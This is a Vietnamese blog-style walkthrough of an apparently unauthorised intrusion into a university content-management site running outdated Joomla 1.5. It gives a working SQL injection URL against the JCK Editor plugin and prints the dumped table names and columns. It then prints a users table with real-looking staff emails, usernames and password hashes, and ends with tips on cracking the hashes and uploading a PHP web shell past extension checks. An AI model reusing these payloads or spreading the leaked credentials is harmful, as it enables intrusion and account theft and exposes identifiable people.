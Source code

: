 # TÔI ĐÃ HACK HTTP://CMS.FPT-X.EDU.VN NHƯ THẾ NÀO?

## 0. PHẦN MỞ ĐẦU

Lý do, mình thực hiện kiểm tra trang này là do yêu cầu của một cậu bạn, giữa mình và cậu ta có một cuộc trao đổi nên sẵn tiện mình chia sẻ cho các bạn đọc bài này để hiểu rõ hơn về cách thức kiểm tra một trang website cơ bản chẳng hạn như mục tiêu trong bài viết.

![](https://media.giphy.com/media/QVhQUlQifO3ZId3QVv/giphy.gif)

## 1. XÁC ĐỊNH CÁC THÔNG SỐ CƠ BẢN

Để có thể giải quyết cái bài toán trên của cậu bạn kia, chúng ta cần phải thu thập thông tin, xác định các thông số cơ bản và đánh giá sau đó đưa ra cách thức để kiểm tra phù hợp với mục tiêu. Cụ thể các thông số cơ bản trong bài này chúng ta cần tìm hiểu là:

- Server của mục tiêu này hoạt động là gì? (VPS Linux/Windows)(APACHE/IIS)
- Mã nguồn mục tiêu này sử dụng là gì? (Wordpress/Laravel/Joomla/.../)
- Phiên bản của mã nguồn này đã outdated hay chưa?
- `...`

**Thứ nhất:** Xác định được Server đang hoạt động là Linux/Windows sẽ cho chúng ta biết nên lựa chọn cách kiểm tra nào cho phù hợp.

**Thứ hai:** Xác định mã nguồn giúp chúng ta thu hẹp lại dễ dàng xác định được các lỗ hổng đặc trưng của từng framework.

**Thứ ba:** Xác định phiên bản `outdated` hay chưa sẽ giúp chúng ta có thêm nhiều cách kiểm tra, vì phiên bản `outdated` sẽ tồn tại nhiều lỗ hổng. Xem và tìm hiểu thêm về: [POC](https://timviec365.vn/blog/poc-la-gi-new7679.html) và [CVE](https://resources.cystack.net/zero-day-la-gi-cve-la-gi/) và Xem thêm trang: https://cve.mitre.org/ nhé.

![Minh họa cho các trang outdated <(")](https://media.giphy.com/media/iVDo6InQKyW8o/giphy.gif)

### CÁCH TỚ XÁC ĐỊNH 

Có nhiều cách để kiểm tra những thông số trên, từ thủ công cho đến công cụ hoặc các đặc điểm nhận dạng. Ở đây, tớ dùng cách thủ công đó là kiểm tra `robots.txt` và viewsource <("). Để kiểm tra file `robots.txt` thì hãy thêm phần ```/robots.txt``` vào web nhé.

![](https://github.com/dirtycoins/emptygroup/blob/main/1.png)

Theo hình ta thấy, cấu trúc này nó `disallow` path `/administrator/` nếu các bạn đã từng kiểm tra nhiều thì chỉ cần nhìn phần này ta có thể đoán được đây là mã nguồn Joomla rồi. Thử truy cập vào path `/administrator` này để ta có thể biết rõ mã nguồn gì nhé. 

![](https://github.com/dirtycoins/emptygroup/blob/main/2.png)

Chuẩn rồi đó, `JOOMLA` tiếp theo đối với phần thông số `version` nhìn vào giao diện này tớ đoán đây là phiên bản cũ, đối với các phiên bản cũ bạn có thể viewsource vì nó có để version trong này. Ấn tổ hợp phím `CTRL + U` hoặc chuột phải chọn `Viewsource` nhé.

![](https://github.com/dirtycoins/emptygroup/blob/main/3.png)

```html
<meta http-equiv="content-type" content="text/html; charset=utf-8" />
<meta name="robots" content="index, follow" />
<meta name="keywords" content="FPT Aptech Iboard, CMS-HCM news and Course Manage System" />
<meta name="description" content="FPT Aptech Iboard News, Information for Students - Pham Phu Phi Author" />
<meta name="generator" content="Joomla! 1.5 - Open Source Content Management" />
<title>Aptech Iboard News - Administration</title>
<link href="/administrator/templates/khepri/favicon.ico" rel="shortcut icon" type="image/x-icon" />
<script type="text/javascript" src="/media/system/js/mootools.js"></script>
```
Bạn có thể nhìn vào thẻ `<meta name="generator">` Ở đây chúng ta thấy `content="Joomla! 1.5 - Open Source Content Management"` như vậy là đã xác định được version của mục tiêu này rồi. Mã nguồn: Joomla - Phiên bản: 1.5 <(")

## 2. XÁC ĐỊNH CÁC CVE TỒN TẠI TRONG MỤC TIÊU TRÊN

Do ở phần 1, chúng ta đã xác định được mã nguồn và phiên bản thì nhận xét đây là phiên bản lỗi thời nên cách tốt nhất là hãy dùng công cụ Joomscan để dò toàn bộ CVE của các phiên bản Joomla trước, từ đó tiến hành thực hiện quá trình khai thác nhé. Joomscan có sourcecode trên github, các bạn git về sử dụng nhé.

![image](https://user-images.githubusercontent.com/53977417/120837780-5744f980-c591-11eb-9f90-02a9dee126aa.png)

Sau khi chạy xong chúng ta sẽ thu được các CVE sau: 

```shell

[+] FireWall Detector
[++] Firewall not detected

[+] Checking module: jckeditor
[++] Joomla Component JCK Editor 6.4.4 - 'parent' SQL Injection
POC: http://cms.fpt-x.edu.vn/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent="%20UNION%20SELECT%20NULL,NULL,0x54683173317374337374,NULL,NULL,NULL,NULL,NULL--%20aa
EDB : https://www.exploit-db.com/exploits/45423/

[+] Detecting Joomla Version
[++] Joomla 1.5.15

[+] Core Joomla Vulnerability
[++] Joomla! 1.5.x - SQL Error Information Disclosure
EDB : https://www.exploit-db.com/exploits/34955/ 

Joomla! < 1.7.0 - Multiple Cross-Site Scripting Vulnerabilities
EDB : https://www.exploit-db.com/exploits/36176/

Joomla! 1.5 < 3.4.5 - Object Injection Remote Command Execution
CVE : CVE-2015-8562
EDB : https://www.exploit-db.com/exploits/38977/

Joomla! 1.0 < 3.4.5 - Object Injection 'x-forwarded-for' Header Remote Code Execution
CVE : CVE-2015-8562 , CVE-2015-8566 
EDB : https://www.exploit-db.com/exploits/39033/
```

Trong số các CVE xuất ra, điều khiến chúng ta chú ý nhất là lỗi `Joomla Component JCK Editor 6.4.4 - 'parent' SQL Injection` nó có cả POC, truy cập vào POC để kiểm tra thử nhé. 

![image](https://user-images.githubusercontent.com/53977417/120838397-f833b480-c591-11eb-8d14-4cdc93f994ab.png)

Tèn tén ten, site này đã bị lỗi SQL Injection via Component JCK Editor, giờ chỉ đơn giản là tiến hành khai thác SQL Injection thông thường. <(")

![image](https://user-images.githubusercontent.com/53977417/120838769-66787700-c592-11eb-9045-4c7c4eda8dd8.png)

```html
<node text="" icon="_closed" selectable="false" url="ibo_banner,ibo_bannerclient,ibo_bannertrack,ibo_categories,ibo_components,ibo_contact_details,ibo_content,ibo_content_frontpage,ibo_content_rating,ibo_core_acl_aro,ibo_core_acl_aro_groups,ibo_core_acl_aro_map,ibo_core_acl_aro_sections,ibo_core_acl_groups_aro_map,ibo_core_log_items,ibo_core_log_searches,ibo_groups,ibo_menu,ibo_menu_types,ibo_messages,ibo_messages_cfg,ibo_migration_backlinks,ibo_modules,ibo_modules_menu,ibo_newsfeeds,ibo_plugins,ibo_poll_data,ibo_poll_date,ibo_poll_menu,ibo_polls,ibo_sections,ibo_session,ibo_stats_agents,ibo_templates_menu,ibo_users,ibo_weblinks"> </node>
```

![image](https://user-images.githubusercontent.com/53977417/120839007-a63f5e80-c592-11eb-880f-a4bb8ad65d0b.png)

```html
<nodes>
<node text="" icon="_closed" selectable="false" url="id,name,username,email,password,usertype,block,sendEmail,gid,registerDate,lastvisitDate,activation,params"> </node>
</nodes>
```

![image](https://user-images.githubusercontent.com/53977417/120839388-15b54e00-c593-11eb-9cc7-9faf2aedb035.png)

```html
<nodes>
<node text="" icon="_closed" selectable="false" url="62|phuphi.80@mail.com|iboardadmin|b0944741c876f80cecb2ae4614629f0c,63|phipp@fpt.com.vn|phipp|711a00d5f9d89db047089a0f3e796d93:i76l3wDzPrSjJimcdUnHRzcGPtWS06sI,88|dungnm@fpt.com.vn|DungNM|dcf0e49476c8a80695c2bc02b76c4d0d:TZRt8IH5keCGg5mb32oyi3OJGkICcInf,89|binhtt@fpt.edu.vn|binhtt|38ed0ef8909ea274b83a1721b37f67f2:G9guVztcbirUeKFSt92wRH1ikqxERLoG,86|phunglv@fpt.edu.vn|phunglv|d4dba7fbeaf7f1cad6b77b3ef5a6825d:SujNXMdj4uGujdRCI4dngJO4SKxFkEzO,87|truongnpk@fpt.edu.vn|truongnpk|17d325d7dc7c912d0fa3634ac03301f1:qzunXOftPrMpUsE0y3XY5n3kSGEb6M50,74|phongna@fpt.edu.vn|phongna|66eb9743fcd396e7dea5819e9256cbed:8bakqusoU6TzUK59XGfq6SIkoH2Jjqpv,90|vietnq@fpt.edu.vn|vietnq|68d2d21db027c0532994d3dd6dcdd2d2:BSwa7HKRiuxbaPsz16COMbLJjXBHUF26,91|haims@fpt.edu.vn|haims|06b4ca002fadf3f4349a5706f266a3e9:UYusc2gwQKI1H8dtXo7xCL8bAAkcAkmQ,92|diepnn4@fpt.com.vn|diepnn4|9bcc9af5bb1429bd6fd4b11e53ad1a59:c5orglHgQbjQBZEahsWCr0C6DIRQbMvv,93|ducnv8@fpt.com.vn|ducnv8|2a35323a7f29eed06879a6e77a508695:Zbk3skwErS7xPxPrrGSSGDGiDEkWPbaQ,94|trainv"> </node>
</nodes>
```

Vậy là đã dump xong thông tin đăng nhập rồi, nhìn vào các dạng hash ta có thể đoán được đoạn đầu tiên sử dụng md5 còn lại là các hash khác nhau. Do vậy ta có thể thử vận may bằng cách decrypt hashmd5 xem trên hashkiller có lưu trữ lại chuỗi hash này không nhé. 

![image](https://user-images.githubusercontent.com/53977417/120839688-73e23100-c593-11eb-9155-b0a00b98edfe.png)

Vậy là xong rồi, tớ sẽ ngừng bài viết này ở đây, còn các cậu muốn tìm hiểu hay upshell chiếm server rồi get root tớ không can thiệp hẻ. 

**Mách nhỏ:** Muốn upload shell Joomla, hãy config lại Legal Extensions (File Types), tắt đi chức năng Restrict Uploads và Check MIME Types, thêm định dang MIME Types cần thiết và thử bypass extension nhé. VD: Shell.php -> Shell.pHp, .phP, .php3, .php5,.. 

![image](https://media.giphy.com/media/s4Q3geM5T1XCo/source.gif)







